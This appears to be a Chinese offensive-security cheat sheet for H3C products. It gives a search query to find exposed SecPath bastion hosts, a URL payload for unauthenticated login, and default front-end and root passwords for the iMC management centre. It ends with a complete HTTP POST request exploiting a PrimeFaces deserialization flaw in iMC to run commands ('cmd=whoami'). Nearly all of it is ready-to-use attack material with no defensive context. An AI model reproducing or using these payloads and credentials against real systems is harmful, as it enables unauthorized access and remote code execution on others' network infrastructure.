

H3C
目录
secpath堡垒机
app="H3C-SecPath-运维审计系统" && body="2018"
未授权用户登录
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
IMC 智能管理中心
默认密码
前台密码：
iMC PLAT 7.3 (E0706)之前版本默认密码是admin
iMC PLAT 7.3 (E0706)及后续版本默认密码是Pwd@12345
后台密码：
windows密码为进入操作系统的密码
linux为自己设置的root密码，如果是一键部署版本，则root密码默认为iMC123
rce
POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: <IP:PORT>
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="88", "Google Chrome";v="88", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8
Cookie: oam.Flash.RENDERMAP.TOKEN=h6t3jznn9; JSESSIONID=28B00884107242919B20BD70146EDFCB; currentThemeName=imc-new-webui
Content-Type: application/x-www-form-urlencoded
Content-Length: 1567
pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
